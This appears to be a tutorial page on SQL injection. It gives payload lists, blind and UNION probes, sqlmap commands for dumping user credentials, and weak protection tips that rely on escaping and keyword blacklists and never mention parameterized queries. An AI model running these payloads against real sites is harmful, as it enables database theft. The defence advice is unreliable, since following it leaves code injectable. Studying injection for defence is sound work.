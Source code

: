 # SQL Injections (SQLi)

![](http://i.imgur.com/AcVJKT2.png)

* A SQL query  search can be easily manipulated and assume that a SQL query search is a reliable command. This means  that SQL searches are capable of passing, unnoticed, by access control mechanisms. 
* Using methods of diverting standard authentication and by checking the authorization credentials, you can gain access to important information stored in a database. 

## The Simplest Example

A parameter passed for a name of a user:

```
SELECT * FROM users WHERE
name="$name";
```

In this case, the attacker just needs to introduce a true logical expression like ```1=1```:

```
SELECT * FROM users WHERE 1=1;
```
So that the **WHERE** clause is always executed, which means that it will return the values that match to all users.

Nowadays it is estimated that less than 5% of the websites have this vulnerability.

These types of flaws facilitate the occurrence of other attacks, such as XSS or buffer overflows.

## Blind SQL Injection

* INFERENCE: useful technique when data not returned and/or detailed error messages disabled. We can differentiate between two states based on some attribute of the page response.

* It's estimated that over 20% of the websites have this flow.

* In traditional SQLi it is possible to reveal the information by the attacker writing a payload. In the blind SQLi, the attacker needs to ask the server if something is TRUE or FALSE. For example, you can ask for a user. If the user exists, it will load the website, so it's true.

* Timing-based techniques: infer based on delaying database queries (sleep(), waitfor delay, etc).

```
IF SYSTEM_USER="john" WAIFOR DELAY '0:0:15'
```

* Response-based techniques (True or False): infer based on text in response. Examples:

```
SELECT count (*) FROM reviews WHERE author='bob' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='1' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='2' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SYSTEM_USER='john' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='a' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='c' (true)
```
(and continue to iterate until finding the value of SYSTEM_USER).

* Utilize transport outside of HTTP response.

```

### Common ways of Exploitation
* Every time you see an URL, the **question mark** followed by some type of letter or word means that a value is being sent from a page to another.

* In the example
```
http://www.website.com/info.php?id=10
```
the page *info.php* is receiving the data and will have some code like:
```
$id=$_post['id'];
```
and an associated SQL query:
```
QueryHere = "select * from information where code='$id'"
```



#### Checking for vulnerability
We can start to verifying whether the target is vulnerable by attaching a simple quote symbol ```'``` in the end of the URL:

```
http://www.website.com/info.php?id=10'
```

If the website returns the following error:

	You have an error in your SQL syntax...

It means that this website is vulnerable to SQL.

#### Find the structure of the database
To find the number of columns and tables in a database we can use [Python's SQLmap](http://sqlmap.org/).  

This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### Gaining access to the Database

* From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
``` 

* The main objective is to find  usernames and passwords in order to gain access/login to the site, for example in a table named *users*. The sqlmap command is

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
``` 

This will return information about the columns in the given table.

* Now we can dump all the data of all columns using the flag ```-C``` for column names:

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

If the password are clear text (not hashed in md5, etc), we have access to the website.

## Basic SQL Injection Exploit Steps

1. Fingerprint database server.
2. Get an initial working exploit. Examples of payloads:
	- '
	- '--
	- ')--
	- '))--
	- or '1'='1'
	- or '1'='1
	- 1--
3. Extract data through UNION statements:
	- NULL: use as a column place holder helps with data type conversion errors
	- GROUP BY - help determine number of columns
4. Enumerate database schema.
5. Dump application data.
6. Escalate privilege and pwn the OS.






## Some Protection Tips

* Never connect to a database as a super user or as a root.
* Sanitize any user input. PHP has several functions that validate functions such as:
	- is_numeric()
	- ctype_digit()
	- settype()
	- addslahes()
	- str_replace()
* Add quotes ```"``` to all non-numeric input values that will be passed to the database by using escape chars functions:
	- mysql_real_escape_string()
	- sqlit_escape_string()

```php
$name = 'John';
$name = mysql_real_escape_string($name);
$SQL = "SELECT * FROM users WHERE username='$name'";
```

* Always perform a parse of data that is received from the user (POST and FORM methods). 
	- The chars to be checked:```", ', whitespace, ;, =, <, >, !, --, #, //```.
	- The reserved words: SELECT, INSERT, UPDATE, DELETE, JOIN, WHERE, LEFT, INNER, NOT, IN, LIKE, TRUNCATE, DROP, CREATE, ALTER, DELIMITER.

* Do not display explicit error messages that show the request or a part of the SQL request. They can helpfingerprint the RDBMS(MSSQL, MySQL).

* Erase user accounts that are not used (and default accounts).

* Other tools: blacklists, AMNESIA, Java Static Tainting, Codeigniter.

